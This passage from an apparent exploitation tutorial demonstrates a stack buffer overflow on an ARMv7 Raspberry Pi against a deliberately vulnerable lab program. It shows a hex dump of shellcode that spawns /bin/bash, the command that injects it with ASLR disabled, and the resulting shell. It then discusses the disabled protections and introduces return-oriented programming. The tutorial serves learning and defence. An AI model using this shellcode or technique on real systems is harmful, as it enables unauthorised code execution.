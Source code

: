    If we run `xxd payload`, we will see the payload content as
   follows:

   ```text
   0000000: 0400 00ea 0e00 a0e1 0110 21e0 0220 22e0  ..........!.. ".
   0000010: 0b70 a0e3 0000 00ef f9ff ffeb 2f62 696e  .p........../bin
   0000020: 2f62 6173 6800 dead 4242 4242 4242 4242  /bash...BBBBBBBB
   0000030: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
   0000040: 4242 4242 4242 4242 4242 4242 4242 4242  BBBBBBBBBBBBBBBB
   0000050: 0000 0000 f8f1 ff7e                      .......~
   ```

3. Run exploit (using `cat` as stdin)

   ```bash
   $ (cat payload; cat) | setarch $(arch) -R ./badcode
   0x7efff1f8
   Enter name:
   ```

   Press 'enter', and now we have the shell

   ```bash
   date
   Fri May  4 02:05:24 CST 2018
   uname -r
   4.14.37-v7+
   whoami
   pi
   apt-get moo
                    (__) 
                    (oo) 
              /------\/ 
             / |    ||   
            *  /\---/\ 
               ~~   ~~   
   ..."Have you mooed today?"...
   ```

Recall that in the demonstration above, we have turned off Linux provided
countermeasures: stack protection, non-executable stack, and address space
layout randomization.

If non-executable stack is turned on, then the above exploit would not
have worked. Unfortunately, on the version of the Raspbian I use for
this tutorial, non-executable stack is not properly implemented, and
thus cannot be easily enabled using the `execstack -c [binary]` command.
On a target that supports this countermeasure, its effect can be
observed by `make badcode_dep`, and then repeating the procedures above
on `./badcode_dep`. You should receive a segmentation fault (core
dumped) message when injecting the payload.

In Part 2, we will describe the technique to bypass non-executable
stack.

## Part 2: Return-oriented programming exploit on ARMv7
